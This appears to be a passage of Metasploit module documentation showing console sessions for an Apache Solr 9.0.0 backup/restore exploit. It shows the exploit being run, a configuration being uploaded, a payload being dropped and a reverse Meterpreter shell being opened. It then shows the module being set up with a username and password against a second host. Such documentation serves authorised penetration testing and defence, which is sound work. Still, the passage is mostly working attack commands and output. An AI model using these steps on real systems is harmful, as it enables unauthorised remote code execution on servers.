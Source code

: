 ```

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/apache_solr_backup_restore) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Running check method
[*] 127.0.0.1:8983: Authentication not required
[*] Found Apache Solr 9.0.0
[*] OS version is Linux amd64 6.6.16-linuxkit
[+] The target appears to be vulnerable. Found Apache Solr version: 9.0.0
[+] Uploaded configuration successfully
[+] Backed up collection successfully
[+] Backed up collection successfully
[+] Uploaded configuration successfully
[*] Sending stage (3045380 bytes) to 172.16.199.1
[+] Successfully dropped the payload
[*] Meterpreter session 12 opened (172.16.199.1:4444 -> 172.16.199.1:50057) at 2024-04-01 16:18:17 -0700
[*] Cleaning up...

meterpreter > getuid
Server username: solr
meterpreter > sysinfo
Computer     : 192.168.128.2
OS           : Ubuntu 20.04 (Linux 6.6.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### Apache Solr 9.0.0 with Authentication
```
msf6 exploit(linux/http/apache_solr_backup_restore) > set password SolrRocks
password => SolrRocks
msf6 exploit(linux/http/apache_solr_backup_restore) > set username solr
username => solr
msf6 exploit(linux/http/apache_solr_backup_restore) > set rhost 172.16.199.132
rhost => 172.16.199.132
msf6 exploit(linux/http/apache_solr_backup_restore) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/apache_solr_backup_restore) > options

Module options (exploit/linux/http/apache_solr_backup_restore):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   SolrRocks        no        Solr password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.132   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                         ml
   RPORT      8983             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
```